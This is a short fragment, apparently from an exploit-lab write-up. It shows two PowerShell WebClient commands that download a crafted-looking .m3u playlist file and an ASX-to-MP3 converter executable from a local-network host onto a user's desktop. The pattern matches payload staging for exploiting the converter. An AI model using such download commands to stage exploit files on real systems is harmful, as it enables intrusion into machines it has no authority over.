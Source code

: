 
powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.3.214/asx2mp3.m3u', 'C:\Users\Derek\Desktop\asx2mp3.m3u')"

powershell -c "(new-object System.Net.WebClient).DownloadFile('http://192.168.3.214/Asxtomp3converter.exe', 'C:\Users\Derek\Desktop\Asxtomp3converter.exe')"
